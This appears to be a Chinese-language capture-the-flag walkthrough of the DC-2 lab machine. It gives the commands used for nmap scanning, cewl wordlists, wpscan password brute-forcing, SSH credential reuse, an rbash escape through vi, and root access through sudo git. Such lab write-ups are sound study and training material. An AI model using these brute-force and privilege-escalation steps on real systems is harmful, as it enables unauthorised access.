

# DC-2
首先 namp扫一下
```
nmap 192.168.111.1/24 -sn存活主机
```
192.168.111.136
扫描端口
```
nmap -sS -T4 -sV -O -p- 192.168.111.136
```

开放80,和ssh端口
访问80端口需要修改host文件

进去后是一个wordpress的站点

站点的flag板块提示使用cewl工具提取字典文件
```
cewl http://dc-2/ -w 1.txt
```
将得到的字典文件放包bp中爆破用户admin
还是登不进
提示用其他用户登录
使用wpscan扫一下
```
wpscan --url http://dc-2/ --enumerate u
```

使用爆破功能
```
wpscan --url http://dc-2/ -U user.txt -P 1.txt 
```

爆破成功
登录后台找到flag2
```
If you can't exploit WordPress and take a shortcut, there is another way.

Hope you found another entry point.
```
寻找站点的wordpress漏洞
对于wordpress站点
两个思路:1.寻找历史漏洞2.主题,组件上的漏洞

先查找一下wordpress的漏洞

此时登录的用户不是管理员,尝试41963.txt重置admin密码(能管理插件,扩大攻击面)
此漏洞需要邮件服务,放弃
主题,插件都没有

---

尝试能不能用这些账号去ssh连接
使用tom的账号密码成功连接
ls查看木木flag3.txt,但是无法cat查看,没有cat命令且被rbash限制

查看usr/bin,可用的命令或compgen -c

vi flag3.txt

提示做提权,但是目前首先需要绕过rbash的限制
恢复成正常bash
使用vi绕过bash
vi
依次输入
:set shell=/bin/bash(回车确认)
:shell

获得正常的bash
但是目前提示没有cat命令,是因为环境的原因
当前环境变量

添加环境变量
```
export PATH=/bin:/usr/bin:/sbin:/usr/sbin
```
可正常执行


可正常执行cat命令

查看jerry用户目录下有flag4.txt

应该是要提权到root用户权限了
看一下能否suid提权
```
find / -perm -4000 -type f -exec ls -ld {} \; 2>/dev/null
```
没有可以进行suid提权的
再查看能不能进行sudo提权

没有办法
看看能不能计划任务提权
好像也不行
用探测脚本linpeas试一下有没有什么信息

查阅用到git提权
原来是按提示切换切换到jerry用户,再往下做.....
sudo -l提权

看到git命令可疑无需密码以root权限执行
git命令提权:
```
sudo git help config
!/bin/bash    # 在 git 交互界面中输入此命令
```

成功得到root权限

拿到最终flag

总结:
```


```


